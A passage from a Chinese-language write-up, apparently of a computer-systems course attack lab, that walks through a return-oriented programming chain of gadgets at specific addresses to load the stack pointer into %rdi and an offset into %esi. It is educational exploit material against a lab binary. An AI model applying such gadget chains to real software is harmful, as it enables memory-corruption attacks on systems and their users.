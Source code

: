 %rsp的值可以通过以下过程放入%rdi中：
```
<gadget2>->0x401aad
mov %rsp, %rax #rax保存初始栈顶
nop
ret

<gadget4>->0x4019a2
mov %rax, %rdi #rdi保存初始栈顶
ret
```

假设偏移量为x，该偏移量可以通过以下过程放入%rsi中：
```
<gadget3>->0x4019cc
popq %rax             # rax = x, 从栈上获得我们预先设置的x值
nop
ret

<gadget5>->0x4019dd
mov %eax, %edx        # edx = x
nop
ret

<gadget8>->0x401a34
mov %edx, %ecx        # ecx = x
cmp %cl, %cl
ret

<gadget7>->0x401a27
mov %ecx, %esi        # esi = x
cmp %al, %al
ret
```
**注意以上两个过程是不可以交换的**，因为在操作途中使用的%edx，%esi，%ecx等寄存器的低32位会导致地址值被截断，导致最后的结果错误。我就是因为这个问题卡了好久。。。

综合一下，最后的汇编指令大致如下：
```
<gadget2>->0x401aad
mov %rsp, %rax #rax保存初始栈顶
nop
ret

<gadget4>->0x4019a2
mov %rax, %rdi #rdi保存初始栈顶
ret

<gadget3>->0x4019cc
popq %rax # rax = x
nop
ret

<gadget5>->0x4019dd
mov %eax, %edx # edx = rax = x
nop
ret

<gadget8>->0x401a34
mov %edx, %ecx # ecx = edx = x
cmp %cl, %cl
ret

<gadget7>->0x401a27
mov %ecx, %esi # esi = ecx = x
cmp %al, %al
```